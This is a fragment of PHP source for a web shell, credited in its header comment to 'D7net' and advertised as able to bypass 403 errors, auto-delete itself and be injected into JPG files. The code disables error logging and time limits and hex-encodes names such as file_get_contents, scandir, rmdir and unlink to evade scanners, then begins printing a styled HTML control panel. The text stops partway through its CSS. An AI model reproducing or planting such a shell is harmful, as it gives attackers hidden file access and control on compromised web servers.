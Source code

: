 <?php

/*
    Shell Bypass 403 Forbidden / Auto Delete Shell / PHP Malware Detector / Minishell
    Inject Shell To JPG By D7net / http://opetolol.eu.org/ 
*/

set_time_limit(0);
error_reporting(0);
error_log(0);

$sname       = "\x30\x62\x79\x74\x33\x6d\x31\x6e\x31" . " - D7net";
$__gcdir     = "\x67" . "\x65\x74\x63\x77\x64";
$__fgetcon7s = "\x66\x69\x6c\x65" . "\x5f\x67\x65\x74\x5f\x63\x6f\x6e\x74\x65\x6e\x74\x73";
$__scdir     = "s" . "\x63\x61\x6e\x64\x69" . "r";
$rm__dir     = "\x72\x6d\x64" . "ir";
$un__link    = "\x75\x6e" . "\x6c\x69\x6e\x6b";

if (get_magic_quotes_gpc()) {
    foreach ($_POST as $key => $value) {
        $_POST[$key] = stripslashes($value);
    }
}

echo '<!DOCTYPE html>
<html>
<head>
<body bgcolor="#092756" text="#ffffff">
<style>
@import url(https://fonts.googleapis.com/css?family=Dosis);
@import url(https://fonts.googleapis.com/css?family=Bungee);
body {
    font-family: "Dosis", cursive;
    text-shadow:0px 0px 1px #757575;
}

body::-webkit-scrollbar {
  width: 12px;
}

body::-webkit-scrollbar-track {
  background: #786F6F;
}

body::-webkit-scrollbar-thumb {
  background-color: #000;
  border: 3px solid gray;
}

#content tr:hover {
    background-color: #8084EC;
    text-shadow:0px 0px 10px #fff;
}

#content .first {
    background-color: #4C53F0;
}
